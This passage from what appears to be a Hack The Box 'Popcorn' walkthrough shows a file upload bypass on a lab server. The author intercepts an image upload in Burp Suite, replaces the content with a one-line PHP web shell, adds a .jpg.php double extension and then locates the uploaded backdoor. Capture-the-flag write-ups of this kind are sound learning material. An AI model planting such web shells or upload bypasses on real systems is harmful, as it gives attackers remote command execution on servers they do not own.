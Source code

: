 ### File Upload Bypass

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/popcorn)

[File Upload Bypass Techniques](https://infinitelogins.com/2020/08/07/file-upload-bypass-techniques/)

Using exploit `php/webapps/11746.txt` and gain the foothold in the server.

At the infor gathering, there are 2 way to upload file which are upload torrent file and upload screenshot file.

At `upload screenshot file`, I try to upload a normal image and intercept the request with Burp Suite.

Change the content in the image to `<?php system($_GET['cmd']); ?>` and change the file name extension to `bymeacoffee.jpg.php`

![](images/6.png)

Back to torrent file in the server and get the location of the backdoor.

It is `http://10.10.10.6/torrent/thumbnail.php?gd=2&src=./upload/8509e36e3f62457bb3e33d07cd9a2440b83aa9fd.php&maxw=96`.

![](images/7.png)
